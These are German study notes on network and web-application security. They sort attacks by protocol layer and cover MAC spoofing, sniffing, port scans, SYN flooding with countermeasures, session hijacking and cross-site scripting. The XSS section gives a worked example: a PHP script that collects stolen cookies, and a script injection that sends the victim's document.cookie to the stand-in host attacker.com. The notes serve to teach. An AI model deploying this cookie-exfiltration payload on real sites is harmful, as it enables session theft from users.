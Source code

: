 # Klassifikation von Verwundbarkeiten und Angriffen
- header-basiert
	- Manipulation der Header-Felder, z.B. alle Bits auf "0"
- protokollbasiert
	- Verstoß gegen die prozessuralen Aspekte / Ablauf eines Protokolls. Eine Verwundbarkeit in einem Protokoll wird ausgenutzt
- authentifizierungsbasiert
	- alle Aspekte in Verbindung mit dem Schutzziel Authentizität, z.B. Eingriffe / Manipulation einer Authentifizierung
- verkehrsdatenbasiert
	- alle Verkehrsdaten sind relevant, z.B. sniffing (Mitlesen mittels Wireshark)

Jede dieser Verwundbarkeiten kann auf jeder Schicht des [[OSI und TCP-IP Referenzmodell|Schichtenmodells]] auftreten. 
Zusätzlich lässt sich der Benutzer auch noch als Layer 8 im [[OSI und TCP-IP Referenzmodell#^42221f|OSI-Referenzmodell]] bezeichnen, welcher mit [[04 Social Engineering|Social Engineering]] auch angreifbar ist.

# Netzzugangsschicht

## Gängige Angriffsmethoden
### Hardware Address Spoofing
- Fälschen von [[MAC-Adressen]], z.B. im [[Ethernet]]-Protokoll
- "Stehlen" der Rahmen, die für ein anderes Gerät bestimmt sind
- Umgehen einfacher Zugriffsbeschränkungen
	- z.B. MAC-Filterung -> MAC-Adressfilterung ist jedoch veraltet und unpraktisch
- fällt unter authentifizierungsbasiert, weil als jemand anderes ausgeben.
### Mitlesen des Netzwerkverkehrs (Sniffing)
- mitlesbarer Traffic abhängig von Position im Netzwerk
- ggf. zusätzlicher Aufwand notwendig, um alle Rahmen lesen zu können (Switch)
- besonders problematisch in offenen drahtlosen Netzen
### Physische Angriffe
- Angriffe gegen Verkabelung oder Netzwerkkomponenten
- Zerstörung, Manipulation, Sabotage
### Rogue Wireless Access Point
#TODO Rogue Wireless Access Point
### Fake Wireless Access Point
#TODO Fake Wireless Access Point

## Gängige Gegenmaßnahmen
- Verwendung von VLANs
- Zugriffsbeschränkung auf das Netzwerk (Network Access Control)
- WLANs:
	- bei offenen Netzen -> VPNs benutzen
	- nur Verwendung von sicheren Standards (~~WEP~~, ~~WPA~~, WPA2, WPA3)
	- korrekte Konfiguration sicherstellen

# Internetschicht
Siehe [[IPv4]] und [[IPv6]]

# Transportschicht
## [[TCP]]-Verbindungsaufbau missbrauchen
### Portscans
- Ermitteln von offenen Ports des Servers. Z.B. mithilfe von [[_IT-Sec Tools#^313460|nmap]].
- Connect-Scan: vollständiger TCP-Verbindungsaufbau
- SYN-Scan: Abbruch nach Antwort des Servers
### Denial-of-Service-Angriff
- Überfluten des Servers mit SYN-Nachrichten
- Verbrauchen sämtlicher Ressourcen für TCP-Verbindungen
- keine Verbindung zu Server-Dienst mehr möglich
-> **SYN-Flooding** z.B. mit [[_IT-Sec Tools#^3cba1b|hping3]].
**Gegenmaßnahmen gegen SYN-Flooding:**
-> SYN-Cookies
- Speichern der für den Verbindungsaufbau benötigten Daten in Sequenznummer

# Anwendungsschicht

# Web Application Security
besteht aus:
- Präsentation der Daten im Webbrowser
- Applikationslogik vom Applikationsserver
- Datenbank im Hintergrund als Persistenz-Schicht

## Session Hijacking
**Definition:** Der Angriff Session Hijacking zielt darauf ab, dass ein Angreifer eine gültige Benutzersitzung (Session) übernimmt, um sich als dieser User auszugeben.

Session-IDs können zum Beispiel an folgenden Stellen auftauchen:
- Als URL-Parameter:
`https://www.domain.com/index.php?id=4711`
- Im Pfad:
`https://www.domain.com/4711/index.php`
- Als Hidden Field im HTML-Code:
`<input type="hidden" name="PHPSESSID" value="4711">`
- Als Cookie:
```
GET /index.php HTTP/1.1
Host: www.domain.com
Cookie: session=4711
```
- Local Storage bzw. Session Storage

## Cross-Site Scripting
**Definition:** Beim Cross-Site Scripting (abgekürzt: XSS) injiziert ein Angreifer schädlichen JavaScript-Code in eine Webseite, der später im Browser anderer Nutzer ausgeführt wird.

### Beispiel
PHP-Skript auf dem Server:
``` php
<?php
	$cookie=($_GET['cookie']);
	$myFile = "CollectedSessions.txt";
	$fh = fopen($myFile, 'a') or die("can't open file");
	$stringData = $cookie."\n";
	fwrite($fh, $stringData);
	fclose($fh);
?>
```
JavaScript Code Injection:
``` html
<script>
	document.location='https://www.attacker.com/cookie_recv.php?cookie='
	+ document.cookie;
</script>
```

## Session Fixation
**Definition:** Bei einer sog. Session Fixation setzt ein Angreifer die Session-ID eines Opfers im Voraus fest und bringt das Opfer dazu, diese Session zu verwenden.
